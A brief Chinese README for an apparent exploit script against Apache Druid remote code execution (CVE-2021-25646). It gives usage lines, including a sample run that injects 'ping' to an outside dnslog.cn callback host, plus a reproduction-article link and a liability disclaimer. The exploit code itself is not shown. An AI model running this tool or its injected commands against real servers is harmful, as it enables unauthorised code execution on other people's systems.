

# Apache Druid 远程代码执行 CVE-2021-25646
by j2ekim

## 使用方法

      python exp.py -u [--url] -c [--command] 
      python cve-2021-25646.py -u http://127.0.0.1:8888 -c "ping 5ap7ta.dnslog.cn"

## 漏洞复现文章
https://www.adminxe.com/2109.html

## 使用需知
由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
